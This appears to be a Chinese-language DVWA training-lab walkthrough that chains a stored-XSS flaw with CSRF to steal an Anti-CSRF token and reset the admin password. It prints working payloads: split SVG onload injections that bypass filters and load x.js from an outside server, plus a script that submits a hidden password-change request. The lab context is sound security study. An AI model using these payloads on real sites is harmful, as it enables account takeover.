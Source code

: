 由于跨域是不能实现的,所以我们要将攻击代码注入到 dvwa 靶机中,才有可能完成攻击.下面利用 High 级别的存储型 XSS 漏洞协助获取 Anti-CSRF token(因为这里的 XSS 注入有长度限制,不能够注入完整的攻击脚本,所以只获取 Anti-CSRF token).

注入代码如下
`<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`

**另类通关**

通过 XSS 获得 token 之后修改密码
同等级的 XSS-Stored $name 可被我们利用做 XSS,这样就可以配合 CSRF 来重置用户密码了.
需要先说明一下 DVWA 的数据库设计,guestbook 表的 name 字段类型为 varchar(100),也就是说最多 name 只能写入 100 个字符,超过的字符会被数据库抛弃不存储.

由于100个字符的限制,将payload分成多份提交
```js
<svg/onload="s='&#115;&#99;&#114;&#105;&#112;&#116;'">  # 事件内可以解析ASCII编码后的字符串
<svg/onload="j=document.createElement(s)">  # 拼接出一个script来引入外部js
<svg/onload="j.src='http://<服务器B>/x.js'">
<svg/onload="document.body.appendChild(j)">
```
这样就可以绕过后端的正则过滤

为了方便测试,在 x.js 里只写了 `alert('HelloDVWA')`

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa82.png)

发现成功了!!!x.js 被成功加载了.但多次加载还是有问题

使用延时,人工干预执行时序
```js
<svg/onload="setTimeout(function(){s='&#115;&#99;&#114;&#105;&#112;&#116;'},3000)">
<svg/onload="setTimeout(function(){j=document.createElement(s)},4000)">
<svg/onload="setTimeout(function(){j.src='http://<服务器B>/x.js'},5000)">
<svg/onload="setTimeout(function(){document.body.appendChild(j)},6000)">
```
稳定触发

下面修改 x.js
```js
ifr = document.createElement('iframe');
ifr.src="../csrf";
ifr.hidden=1;
document.body.appendChild(ifr);
setTimeout(function(){f=frames[0];t=f.document.getElementsByName('user_token')[0].value;i=document.createElement('img');i.src='../csrf/?password_new=admin&password_conf=admin&Change=Change&user_token='+t;},3000)
```

当管理员访问留言板 XSS-Stored 时候:
1. 会先加载 `x.js`
2. `x.js` 内的脚本内容,会创建一个隐藏的 `iframe` 标签到 `DOM`
3. 等待 `iframe` 创建完成之后,便通过创建一个 `img` 标签,自动触发修改密码的请求

### Impossible

**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$pass_curr = $_GET[ 'password_current' ];
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Sanitise current password input
	$pass_curr = stripslashes( $pass_curr );
```